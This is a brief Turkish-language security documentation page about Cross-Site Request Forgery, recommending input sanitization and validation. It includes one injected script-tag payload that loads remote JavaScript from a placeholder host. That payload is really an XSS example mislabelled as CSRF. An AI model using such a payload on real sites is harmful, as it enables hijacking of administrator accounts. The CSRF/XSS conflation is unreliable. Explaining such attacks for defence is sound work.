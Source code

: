 ```yaml
---
icon: material/circle-small
search:
  boost: 2
---
```


# Cross-Site Request Forgery (CSRF)

CSRF, yöneticilere saldırmak ve yönetici hesaplarına erişim sağlamak için kullanılabilir. Yöneticilerin genellikle hassas fonksiyonlara erişimi vardır ve bunlar arka uç sunucusuna saldırmak için kullanılabilir. Aşağıdaki örnek ile uzak makineye bir JavaScript kodu yüklenmiştir:

```html
"><script src=//www.example.com/exploit.js></script>
```

Kullanıcı girdisi kabul edilirken iki ana kontrolün uygulanması gerekir:

1. Sanitization
2. Validation
